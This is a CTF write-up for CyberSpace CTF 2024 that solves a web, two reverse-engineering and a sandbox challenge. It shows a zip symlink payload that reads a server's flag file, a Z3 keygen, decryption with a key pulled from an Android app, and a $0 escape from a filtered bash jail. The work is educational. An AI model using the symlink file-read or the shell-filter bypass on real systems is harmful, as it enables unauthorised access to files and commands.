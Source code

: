 ```yaml
---
title: 'csctf 2024'
description: 'Here is the solutions to some of the challenges in CyberSpace CTF'
pubDate: 'Aug 31 2024'
heroImage: 
  src: '/blog-placeholder-1.jpg'
  alt: ''
order: 1
tags: ["writeup"]
---
```


# Background Information

I did this with team lazy bums but we did trash as usual.

## Web

### ZipZone
> I was tired of trying to find a good file server for zip files, so I made my own! It's still a work in progress, but I think it's pretty good so far.

Ok, so first this we can see is that we can upload a file and that we can view / download whatever we extracted. 

Before we start, let's analyze the source code of the web application.

```python
@app.route("/", methods=["GET", "POST"])
def upload():
    if request.method == "GET":
        return render_template("index.html")

    if "file" not in request.files:
        flash("No file part!", "danger")
        return render_template("index.html")

    file = request.files["file"]
    if file.filename.split(".")[-1].lower() != "zip":
        flash("Only zip files allowed are allowed!", "danger")
        return render_template("index.html")

    upload_uuid = str(uuid.uuid4())
    filename = f"{upload_dir}raw/{upload_uuid}.zip"
    file.save(filename)
    subprocess.call(["unzip", filename, "-d", f"{upload_dir}files/{upload_uuid}"])
    flash(
        f'Your file is at <a href="/files/{upload_uuid}">{upload_uuid}</a>!', "success"
    )
    logging.info(f"User uploaded file {upload_uuid}.")
    return redirect("/")


@app.route("/files/<path:path>")
def files(path):
    try:
        return send_from_directory(upload_dir + "files", path)
    except PermissionError:
        abort(404)


@app.errorhandler(404)
def page_not_found(error):
    return render_template("404.html")

```

Ignoring all the basic web application setup, what we really care about is WHAT WE CAN PREDICTABLY CONTROL. So we should only analyze the `subprocess.call()` function since that is the only "dangerous" function we can mess with.

A tip is that whenever we deal with compressed files, such as `zip` or `tar` the problem of `symbolic links` come up. Symbolic links are basically files that "point" to other files. Vulnerable web applications such as this do not verify if the decompressed file is a symlink. So with that fact, we can build the process.

1. Create a symlink to flag
2. Upload the symlink
3. Profit $$$$$$

So lets symlink and zip it. (The flag stuff was based on analysis on the Dockerfile)

```bash
ln -s ../../../home/user/flag.txt flag
zip -r flag.zip flag
```

And... we profit! 

> CSCTF{5yml1nk5_4r3_w31rd}

## Reverse Engineering

### Key

This is a basic keygen + password checking crackme. What we do is just find the algorithm in a disassembler like `Ghidra` and put the algorithm in a Z3 script.

Solution:

```python
from z3 import *

# Initialize a solver
solver = Solver()

# Define the 32-byte key as a list of BitVecs
key = [BitVec(f'key_{i}', 8) for i in range(32)]

# Define the values of v6
v6 = [
    67, 164, 65, 174, 66, 252, 115, 176, 111, 114, 94, 168, 101, 242, 81, 206,
    32, 188, 96, 164, 109, 70, 33, 64, 32, 90, 44, 82, 45, 94, 45, 196
]

# Define the constraints based on the program logic
for i in range(32):
    transformed_value = (i % 2 + 1) * (i ^ key[i])
    solver.add(transformed_value == v6[i])

# Check if the solution exists
if solver.check() == sat:
    model = solver.model()
    result_key = ''.join([chr(model[key[i]].as_long()) for i in range(32)])
    print("Key found:", result_key)
else:
    print("No solution found.")

```
> CSCTF{u_g0T_it_h0OrAy6778462123}

### Encryptor

This is an android web application. So what we can do is use JADX decompiler to analyze the java kotlin code that makes up this application

In `resources` we get a basic enc.txt file with content:

```
OIkZTMehxXAvICdQSusoDP6Hn56nDiwfGxt7w/Oia4oxWJE3NVByYnOMbqTuhXKcgg50DmVpudg=
```

This is encrypted not encoded, so we need to find the encryption algorithm for this.

Upon more investigation we find the encryption algorithm in `sources/com/example/encryptor/MainActivity.java`. It's blowfish. 

```java
  private String getKey() {
        return new String(Base64.decode("ZW5jcnlwdG9yZW5jcnlwdG9y".getBytes(), 0));
    }

    private String encryptText(String str) throws InvalidKeyException, UnsupportedEncodingException, NoSuchPaddingException, NoSuchAlgorithmException, IllegalBlockSizeException, BadPaddingException {
        SecretKeySpec secretKeySpec = new SecretKeySpec(getKey().getBytes("UTF-8"), "Blowfish");
        Cipher instance = Cipher.getInstance("Blowfish");
        if (instance != null) {
            instance.init(1, secretKeySpec);
            return Build.VERSION.SDK_INT >= 26 ? new String(Base64.encode(instance.doFinal(str.getBytes("UTF-8")), 0)) : "";
        }
        throw new Error();
    }
```

So we can just make a script in python that solves this.

```python
from Crypto.Cipher import Blowfish
from base64 import b64decode

def decrypt_text(encrypted_text):
    # The key used in the Java code
    key = "encryptorencryptor".encode('utf-8')

    # Decode the Base64 encoded string
    encrypted_data = b64decode(encrypted_text)

    # Initialize the Blowfish cipher in ECB mode
    cipher = Blowfish.new(key, Blowfish.MODE_ECB)

    # Decrypt the data
    decrypted_data = cipher.decrypt(encrypted_data)

    # Remove potential padding added during encryption (since Blowfish is a block cipher)
    decrypted_text = decrypted_data.rstrip(b"\x00")

    return decrypted_text.decode('utf-8')

# Example usage
encrypted_text = "OIkZTMehxXAvICdQSusoDP6Hn56nDiwfGxt7w/Oia4oxWJE3NVByYnOMbqTuhXKcgg50DmVpudg="
decrypted_text = decrypt_text(encrypted_text)
print("Decrypted text:", decrypted_text)

```

And we get the flag! 

> CSCTF{3ncrypt0r_15nt_s4Fe_w1th_4n_h4Rdc0d3D_k3y!}

## Sandbox

### Baby Pybash

So we enter a "python bash jail" where we are restricted from certain characters in input to make commands. Let's analyze the source code to see what we are missing.

```python
#!/usr/local/bin/python3 -u
import subprocess
import re


def restrict_input(command):
    pattern = re.compile(r'[a-zA-Z*^\,,;\\!@/#?%`"\'&()-+]|[^\x00-\x7F]')
    if pattern.search(command):
        raise ValueError("that's not nice!")
    return command


def execute_command(command):
    safe = restrict_input(command)
    result = subprocess.run(safe, stdout=True, shell=True)
    return result.stdout


print("Welcome to Baby PyBash!\n")
cmd = input("Enter a bash command: ")
output = execute_command(cmd)
print(output)
```
Wow. We are restricted from the entire alphabet and other special fonts that would bypass like italics. However, we are allowed certian special characters and numbers. 

So what we can do is call `$0` since that calls /bin/bash. Then we can profit!

```bash
== proof-of-work: disabled ==
Welcome to Baby PyBash!

Enter a bash command: $0
ls
chall.py
flag.txt
run.sh
cat flag.txt
CSCTF{b4sH_w1z4rd_0r_ju$t_ch33s3_m4st3r?_c1d4eeb2a}

```

> CSCTF{b4sH_w1z4rd_0r_ju$t_ch33s3_m4st3r?_c1d4eeb2a}